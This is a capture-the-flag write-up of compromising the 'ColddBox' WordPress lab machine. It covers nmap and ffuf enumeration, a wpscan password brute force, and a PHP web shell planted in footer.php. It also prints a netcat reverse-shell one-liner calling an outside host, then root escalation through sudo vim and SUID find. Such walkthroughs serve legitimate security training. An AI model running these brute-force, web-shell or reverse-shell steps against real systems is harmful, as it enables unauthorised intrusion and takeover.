# Colddbox

#Linux #Wordpress #PHP #PrivEsc 

## Reconnaissance

I started running nmap and I got the result:

```
$ nmap -sC -sV 10.64.160.90 -vv
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-20 15:55 EST
NSE: Loaded 157 scripts for scanning.
NSE: Script Pre-scanning.
NSE: Starting runlevel 1 (of 3) scan.
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Searching for files, I noticed that the application is using Wordpress.

```
$ ffuf -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36" -u http://10.64.160.90/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.64.160.90/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

readme.html             [Status: 200, Size: 7173, Lines: 96, Duration: 127ms]
.htaccess               [Status: 403, Size: 277, Lines: 10, Duration: 126ms]
license.txt             [Status: 200, Size: 19930, Lines: 386, Duration: 128ms]
wp-login.php            [Status: 200, Size: 2547, Lines: 65, Duration: 2289ms]
wp-config.php           [Status: 200, Size: 0, Lines: 1, Duration: 133ms]
wp-trackback.php        [Status: 200, Size: 135, Lines: 5, Duration: 139ms]
wp-settings.php         [Status: 500, Size: 0, Lines: 1, Duration: 128ms]
.                       [Status: 301, Size: 0, Lines: 1, Duration: 139ms]
wp-mail.php             [Status: 403, Size: 2965, Lines: 109, Duration: 138ms]
wp-cron.php             [Status: 200, Size: 0, Lines: 1, Duration: 134ms]
wp-blog-header.php      [Status: 200, Size: 0, Lines: 1, Duration: 137ms]
wp-links-opml.php       [Status: 200, Size: 219, Lines: 11, Duration: 136ms]
.html                   [Status: 403, Size: 277, Lines: 10, Duration: 125ms]
index.php               [Status: 301, Size: 0, Lines: 1, Duration: 4309ms]
xmlrpc.php              [Status: 200, Size: 42, Lines: 1, Duration: 4369ms]
.php                    [Status: 403, Size: 277, Lines: 10, Duration: 125ms]
wp-load.php             [Status: 200, Size: 0, Lines: 1, Duration: 133ms]
wp-signup.php           [Status: 302, Size: 0, Lines: 1, Duration: 141ms]
wp-activate.php         [Status: 302, Size: 0, Lines: 1, Duration: 150ms]
.htpasswd               [Status: 403, Size: 277, Lines: 10, Duration: 125ms]
.htm                    [Status: 403, Size: 277, Lines: 10, Duration: 125ms]
.htpasswds              [Status: 403, Size: 277, Lines: 10, Duration: 125ms]
.htgroup                [Status: 403, Size: 277, Lines: 10, Duration: 134ms]
wp-forum.phps           [Status: 403, Size: 277, Lines: 10, Duration: 125ms]
.htaccess.bak           [Status: 403, Size: 277, Lines: 10, Duration: 126ms]
.htuser                 [Status: 403, Size: 277, Lines: 10, Duration: 126ms]
.ht                     [Status: 403, Size: 277, Lines: 10, Duration: 126ms]
.htc                    [Status: 403, Size: 277, Lines: 10, Duration: 126ms]
.htaccess.old           [Status: 403, Size: 277, Lines: 10, Duration: 125ms]
.htacess                [Status: 403, Size: 277, Lines: 10, Duration: 126ms]
```

Enumerating  theusers, I found four. The user `c0ldd` was valid with the following password.

```
$ wpscan --url http://10.66.161.166 -e u -P /usr/share/wordlists/rockyou.txt --api-token jP2hrFsO85... 
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://10.66.161.166/ [10.66.161.166]
[+] Started: Sun Dec 21 06:34:58 2025
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 4 user/s
[SUCCESS] - c0ldd / 9876543210                                                  
```

I was able to login successfully.

<figure><figcaption></figcaption></figure>

Since I can login, I tried writing in `footer.php` to see if it was allowed, and it worked.

<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

Now, I can write `system($_GET['shell']);` to pass the following command to get a shell.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.130.101 1337 >/tmp/f
```
<figure><figcaption></figcaption></figure>
<figure><figcaption></figcaption></figure>

## Login As c0ldd

I was unable to access the `/home/c0ldd` directory to read the flag due to insufficient permissions. I noticed that a user named `c0ldd` who has a bash shell.

```
www-data@ColddBox-Easy:/var/www/html$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
c0ldd:x:1000:1000:c0ldd,,,:/home/c0ldd:/bin/bash
```

 I started looking at configuration files trying to find some password.
 
<figure><figcaption></figcaption></figure>

First, I attempted to authenticate as `c0ldd` on ssh, but without success. I performed a full scan to confirm that it was another port serving ssh.

```
$ nmap -sC -sV -p- 10.64.154.176 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-12-21 09:00 EST
Nmap scan report for 10.64.154.176
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: ColddBox | One more machine
|_http-generator: WordPress 4.1.31
4512/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4e:bf:98:c0:9b:c5:36:80:8c:96:e8:96:95:65:97:3b (RSA)
|   256 88:17:f1:a8:44:f7:f8:06:2f:d3:4f:73:32:98:c7:c5 (ECDSA)
|_  256 f2:fc:6c:75:08:20:b1:b2:51:2d:94:d6:94:d7:51:4f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 148.49 seconds
```

Since we know the correct port, I was able to login as `c0ldd`.

<figure><figcaption></figcaption></figure>

Reading the `user.txt` flag.

<figure><figcaption></figcaption></figure>

## Privilege Escalation

Checking for possible binaries that I could run as sudo, I found `vim`.

<figure><figcaption></figcaption></figure>

We can see in GTFOBins, that it is possible to escalate the privilege by running this following command:

```
c0ldd@ColddBox-Easy:~$ sudo vim -c ':!/bin/sh'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation - 2

There is other way to escalate privileges. Running Linpeas, I found a binary `find` that has the SUID bit set.

<figure><figcaption></figcaption></figure>

Checking on GTFOBins, I found this binary.

<figure><figcaption></figcaption></figure>

We can escalate to root running this command bellow.

```
www-data@ColddBox-Easy:/var/www/html$ find . -exec /bin/bash -p \; -quit
```

<figure><figcaption></figcaption></figure>

Reading `root.txt` flag.

<figure><figcaption></figcaption></figure>